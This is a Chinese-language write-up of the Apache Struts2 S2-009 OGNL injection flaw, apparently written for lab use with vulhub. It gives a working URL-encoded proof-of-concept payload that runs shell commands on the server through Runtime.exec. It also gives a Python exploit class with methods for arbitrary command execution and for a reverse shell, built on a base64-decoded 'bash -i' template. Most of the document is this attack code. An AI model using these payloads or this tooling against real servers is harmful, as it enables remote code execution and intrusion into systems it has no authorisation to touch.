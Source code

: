 # Struts2-009

## 漏洞介绍

该漏洞是在Struts2对s2-003的修复方法是禁止静态方法调用，在s2-005中可直接通过OGNL绕过该限制，对于`#`号，同样使用编码`\u0023`或`\43`进行绕过。于是Struts2对s2-005的修复方法是禁止`\`等特殊符号，使用户不能提交反斜线。

但是，如果当前action中接受了某个参数`example`，这个参数将进入OGNL的上下文。所以，我们可以将OGNL表达式放在`example`参数中，然后使用`/helloword.acton?example=aaa&bbbb=(example)('xxx')`的方法来执行它，从而绕过官方对`#`、`\`等特殊字符的防御。

**所以该漏洞是在s2-003，s2-005基础上在一次绕过的。**

## 漏洞版本

影响版本: 2.1.0 - 2.3.1.1

漏洞详情: http://struts.apache.org/docs/s2-009.html

## poc

```
age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),
+%23_memberAccess[%22allowStaticMethodAccess%22]=true,
+%23a=@java.lang.Runtime@getRuntime().exec(%27env%27).getInputStream(),
%23b=new+java.io.InputStreamReader(%23a),
%23c=new+java.io.BufferedReader(%23b),
%23d=new+char[51020],
%23c.read(%23d),
%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),
%23kxlzx.println(%23d),
%23kxlzx.close())(meh)&z[(name)(%27meh%27)]
```

![image-20210302171330789](./1.png)

## 扫描器

进行了简单的修改

```python
class S2_009:
    """S2-009漏洞检测利用类"""
    info = "[+] S2-009:影响版本Struts 2.0.0-2.3.1.1; GET请求发送数据,URL后面需要请求参数名; 默认为: key; 支持任意命令执行和反弹shell"
    exec_payload = "(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27{cmd}%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[({key})(%27meh%27)]"

    shell = "bash -c {echo,SHELL}|{base64,-d}|{bash,-i}"

    def __init__(self, url, data=None, headers=None, encoding="UTF-8"):
        self.url = url
        if not data:
            self.data = "name"
        else:
            self.data = data.split('=')[0].strip()
        self.headers = parse_headers(headers)
        self.encoding = encoding
        self.is_vul = False

    def check(self):
        """检测漏洞是否存在"""
        html = echo_check(self)
        if str(html).startswith("ERROR:"):
            return html
        if html:
            self.is_vul = True
            return 'S2-009'
        return self.is_vul

    def exec_cmd(self, cmd):
        """执行命令"""
        payload = self.exec_payload.format(cmd=quote(cmd), key=self.data)
        html = get(self.url + "/?age=12313&{key}={payload}".format(key=self.data, payload=payload), self.headers, self.encoding)
        return html

    def reverse_shell(self, ip, port):
        """反弹shell"""
        html = reverse_shell(self, ip, port)
        return html
```

## 参考

>https://github.com/vulhub/vulhub/blob/master/struts2/s2-009/README.zh-cn.md

